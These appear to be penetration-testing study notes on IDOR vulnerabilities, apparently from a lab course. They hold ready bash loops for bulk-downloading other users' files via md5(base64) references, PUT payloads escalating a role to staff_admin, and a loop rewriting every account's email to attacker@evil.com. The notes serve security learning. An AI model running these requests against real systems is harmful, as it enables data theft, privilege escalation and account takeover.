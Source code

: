 # IMPORTANT TLDR 
### CHECK COMBINATIONS OF ENCODED FIELDS FOR BASE64, MD5, URL AND SIMILAR ENCODING
### APIs API-ENDPOINTS ARE PARTICULARLY VULNERABLE. ALSO CHECK OUT [[🔵 7. HTTP Verb Tampering]] AS ITS KINDA RELATED
# 1. What is IDOR?

IDOR occurs when an application uses user-supplied input to access objects (e.g., files, user profiles, database records) without proper access control validation.

Examples:

- `GET /download.php?file=1.pdf` → Attacker changes it to `file=2.pdf` to download another user’s file.    
- `GET /profile/1` → Accesses user 1's profile, attacker tries `/profile/2` to read someone else's profile.

# 2. Types of IDOR

**2.1 IDOR for Information Disclosure**

- Unauthorized read access to resources (files, personal data, etc.)    
- Exploited using predictable or leaked object references

**2.2 IDOR for Insecure Function Calls**

- Unauthorized execution of actions on behalf of another user    
- Exploiting APIs (PUT/POST/DELETE) to modify or delete resources
# 3. Common Exploitation Patterns

#### a. Cleartext Identifiers (Simple IDOR)

- Direct manipulation of UID in URL or request body    
- Easy to enumerate (e.g., `/user?id=1`, `/profile/2`)
#### b. Encoded References (Obfuscated but Reversible)

- Application uses MD5 hashes or base64 to obscure object references    
- Still vulnerable if encoding mechanism can be reversed (e.g., `md5(base64(uid))`)

Example:

```bash
echo -n 1 | base64 -w 0 | md5sum | tr -d ' -'
```

Use the resulting hash in the request to access another object
#### c. SPA-based Frontend Exposure

- Applications using React/Vue/Angular may calculate identifiers client-side    
- JS reveals functions like `CryptoJS.MD5(btoa(uid))`
- Use browser DevTools → Sources tab → search `download(` or `fetch(`
#### d. Chained IDOR

- Combine Information Disclosure (GET uid/uuid) with Function Call (PUT request)    
- First, GET another user’s data to leak UUID
- Then, send PUT with modified fields and correct UUID to overwrite their data
# 4. Practical Exploitation Workflow
#### Step 1: Identify Object References

- Intercept traffic with Burp    
- Locate GET/PUT/POST/DELETE calls referencing `uid`, `id`, `file`, `contract`, etc.
#### Step 2: Test for Authorization Controls

- Try changing the object reference (e.g., `uid=2` instead of `1`)
- Observe if data is leaked or errors occur
#### Step 3: Reverse Obfuscation if Needed

- Look for hashes like `cdd96d3cc73d1dbdaffa03cc6cd7339b`
- Try reversing using assumptions:
    - `md5(uid)`
    - `md5(base64(uid))`
#### Step 4: Enumerate in Bulk (Bash Script)

```bash
for i in {1..10}; do
  for hash in $(echo -n $i | base64 -w 0 | md5sum | tr -d ' -'); do
    curl -sOJ -X POST -d "contract=$hash" http://SERVER_IP:PORT/download.php
  done
done
```

#### Step 5: Exploit Function Call IDOR

- Use leaked `uuid` from GET to perform PUT

```json
PUT /profile/api.php/profile/2
{
  "uid": "2",
  "uuid": "leaked_uuid",
  "role": "employee",
  "full_name": "Modified Name",
  "email": "attacker@htb.local",
  "about": "Owned"
}
```

#### Step 6: Attempt Privilege Escalation

- Modify `role` field (e.g., `role=staff_admin`) and submit PUT
- Confirm with GET whether role has changed
- If successful, try to perform restricted actions like creating or deleting users    
### 5. Case Study: Chaining IDOR Vulnerabilities

1. **GET** `/profile/api.php/profile/2` → Leaks:

```json
{
  "uid": "2",
  "uuid": "4a9bd19b3b8676199592a346051f950c",
  "role": "employee"
}
```

2. **PUT** `/profile/api.php/profile/2` with modified role:

```json
{
  "uid": "2",
  "uuid": "4a9bd19b3b8676199592a346051f950c",
  "role": "staff_admin"
}
```

→ Role escalated without needing any data from existing admin user
### 6. Notes and Tips

- If role change works, manually update `Cookie: role=staff_admin` to enable UI changes
- Try known role names like: `admin`, `web_admin`, `staff_admin`, `srv_admin`
- Perform mass updates using loops if possible

Example:

```bash
for i in {1..10}; do
  curl -X PUT -H 'Content-Type: application/json' -d '{
    "uid":"'$i'",
    "uuid":"uuid_here",
    "email":"attacker@evil.com"
  }' http://SERVER_IP:PORT/profile/api.php/profile/$i

done
```
